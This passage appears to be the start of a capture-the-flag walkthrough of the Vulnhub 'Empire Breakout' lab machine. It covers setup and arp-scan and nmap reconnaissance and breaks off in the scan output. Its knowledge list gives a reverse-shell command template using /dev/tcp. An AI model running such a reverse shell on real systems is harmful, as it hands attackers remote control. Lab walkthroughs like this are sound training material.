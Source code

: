 # Vulnhub Empire Breakout


Vulnhub Training Waklthrough -- Empire Breakout



## Knowledge

- enum4linux -- enumeration of smb service
- reverse shell -- sh -i /dev/tcp/IP/port 0>&1
- getcap -- read the file's capability

## 1. Environment Setup

Download the [zip file](https://download.vulnhub.com/empire/02-Breakout.zip), setup the network to NAT, open with VMware.

## 2. Reconnaisence

### 1. IP Address

arp-scan scanner:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sudo arp-scan -l
[sudo] password for v4ler1an:
Interface: eth0, type: EN10MB, MAC: 00:0c:29:9d:5b:9e, IPv4: 172.16.86.138
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.86.1	5e:52:30:c9:b7:65	(Unknown: locally administered)
172.16.86.2	00:50:56:fd:f8:ec	VMware, Inc.
172.16.86.149	00:0c:29:c7:9d:d8	VMware, Inc.
172.16.86.254	00:50:56:fa:b5:64	VMware, Inc.

8 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.385 seconds (107.34 hosts/sec). 4 responded
```

### 2. Port Info

nmap scanner:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ nmap -T4 -sC -sV -p- --open -oN nmap_scan 172.16.86.149
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-13 06:31 EST
Nmap scan report for 172.16.86.149
Host is up (0.0015s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows

Host script results:
| smb2-security-mode:
|   3:1:1:
```